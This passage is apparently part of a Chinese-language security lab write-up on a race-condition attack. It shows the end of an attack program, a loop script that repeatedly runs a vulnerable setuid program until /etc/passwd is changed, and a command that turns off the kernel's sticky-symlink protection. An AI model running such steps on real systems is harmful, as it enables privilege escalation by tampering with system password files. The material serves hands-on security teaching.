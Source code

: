 ```c
        usleep(1000);
    }
    return 0;
}
```

编译

```bash
 gcc -o attack attack.c
```

#### 创建攻击脚本target.sh

```bash
#!/bin/bash

CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
	./vulp < passwd_input
	new=$($CHECK_FILE)
done

echo "STOP...The passwd file has been changed"
```

如果执行脚本时报错：`'\r': command not found`，可能是因为在window下编辑完成后上传到linux，win下的换行是回车符+换行符，即\r\n，而unix下是换行符\n，因此不识别\r为回车符，所以导致每行多了个\r。

使用如下命令去除即可

```bash
sed -i 's/\r//' target.sh
```

#### 共同执行

```bash
./attack
```

再打开一个终端

```bash
sudo sysctl -w kernel.yama.protected_sticky_symlinks=0
bash target.sh
```

![image-20220320155142309](Race_Condition/image-20220320155142309.png)
